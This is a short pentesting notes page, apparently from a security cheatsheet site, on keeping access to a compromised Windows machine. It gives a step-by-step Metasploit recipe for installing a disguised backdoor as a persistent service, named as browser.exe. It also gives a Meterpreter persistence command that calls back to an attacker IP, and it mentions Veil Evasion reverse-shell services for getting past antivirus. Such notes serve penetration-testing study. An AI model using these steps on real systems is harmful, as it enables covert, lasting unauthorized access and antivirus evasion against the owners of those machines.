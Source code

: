 # Maintaining access on Windows

## Attack tree

```text
1 Maintain access on Windows
    1.1 In meterpreter background the current basic shell (AND)
    1.2 > use exploit/windows/local/persistence (AND)
    1.3 Set EXE_NAME to something less suspicious (like browser.exe) (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show advanced
    1.6 Inject backdoor as a service with > set EXE::Custom [backdoor location] (/var/www/html/evil-files/backdoor.exe) (AND)
    1.7 > exploit
    1.8 Store the Meterpreter RC_file path for cleanup later
```

## Notes

### Problems

* Using Veil Evasion's `rev_http_service` and `rev_tcp_service` can be used instead of a backdoor, or uploaded from meterpreter. This does not always work.
* Using Meterpreter's persistence module (`> run persistence -U -i 20 -p 80 -r [IP address]`) is detectable by AV.
* A combination of the two solves these problems.

## Cheatsheets

* [Windows post exploitation enumeration](cheatsheets:docs/enumeration/windows-post)
* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)